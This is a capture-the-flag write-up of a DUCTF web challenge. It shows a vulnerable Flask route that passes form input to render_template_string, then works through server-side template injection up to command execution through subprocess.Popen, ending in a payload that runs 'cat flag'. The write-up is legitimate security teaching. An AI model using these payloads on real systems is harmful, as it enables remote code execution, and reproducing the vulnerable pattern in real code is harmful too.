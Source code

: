 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available classes, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: ''.__class__.__base__.__subclasses__()[213]

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag

- Flag payload

      Payload: ''.__class__.__base__.__subclasses__()[213]("cat flag",shell=True,stdout=-1).communicate()

![image](https://github.com/user-attachments/assets/9312e1e3-ace1-42cc-8fff-53d6714c7bda)

- Flag-:```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```

---------------------------------------


